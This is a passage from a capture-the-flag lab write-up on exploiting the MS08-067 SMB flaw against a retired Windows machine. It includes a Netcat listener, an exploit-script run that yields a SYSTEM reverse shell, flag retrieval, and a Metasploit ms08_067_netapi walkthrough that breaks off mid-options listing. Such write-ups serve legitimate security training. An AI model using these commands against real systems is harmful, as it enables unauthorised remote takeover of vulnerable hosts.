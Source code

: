 ```
nc -lnvp 443
```

Then, I executed the exploit script:

```
python3 MS08-067.py 10.10.10.4 6 445
```
The exploit successfully triggered, and I received a reverse shell callback on the Netcat listener:


![Pasted image 20250308095159](https://github.com/user-attachments/assets/aae1aa85-ae52-4d1f-a636-c57a0a582bae)


With SYSTEM-level access, I navigated to the user and administrator directories to retrieve the flags:

```
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4...

C:\Documents and Settings\Administrator\Desktop>type root.txt
993442d2...
```


##  Exploiting MS08-067 Using Metasploit

For those who prefer a more automated approach, **Metasploit** provides a reliable and efficient way to exploit the **MS08-067** vulnerability. Below is a step-by-step guide to exploiting the Legacy box using Metasploit.

Start Metasploit with the following command:

```
msfconsole -q
```

Use the `ms08_067_netapi` exploit module:

```
msf6 > use exploit/windows/smb/ms08_067_netapi
```

Set the target host (`RHOSTS`) and the listener IP (`LHOST`):

```
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4

msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
LHOST => tun0
```

Verify the configuration with the `options` command:

```
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s)
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description 
   ----      ---------------  --------  ----------- 
```